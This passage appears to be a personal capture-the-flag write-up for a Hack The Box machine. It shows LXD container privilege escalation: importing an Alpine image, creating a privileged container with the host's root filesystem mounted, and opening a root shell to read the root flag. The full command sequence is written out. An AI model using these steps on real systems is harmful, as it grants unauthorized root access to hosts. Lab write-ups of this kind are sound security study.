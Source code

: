 I tried running the `lxc image import` again but I still received the error: `Error: open ./alpine-v3.12-x86_64-20200625_0040.tar.gz: no such file or directory`

I now realised that I had copied the import command from the guide I am following and neglected to change the name of the `.tar.gz` package to the name of the package that I have created (rather than the name in the guide). 

\# Importing the image into `lxc`

```
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias whiskeyneat
```

The import is now successful:

![[Pasted image 20240301194134.png]]

\# Create a container from the image

```
lxc init whiskeyneat hackthebox -c security.privileged=true
```

\# Mount part the host file system

```
lxc config device add hackthebox device-htb disk source=/ path=/mnt/root
```

\# The container is ready:

![[Pasted image 20240301194954.png]]

\# Start the container:

![[Pasted image 20240301195126.png]]

\# `lxc exec` returns a root shell inside the container:

```
lxc exec hackthebox /bin/sh
```

![[Pasted image 20240301195253.png]]

This shell is inside the container:

![[Pasted image 20240301195419.png]]

So in order to find the root flag I need to move into the mounted part using:

```
cd /mnt/root
```

Now I can cd into `/root` and find the `root.txt` file:

![[Pasted image 20240301195549.png]]

---
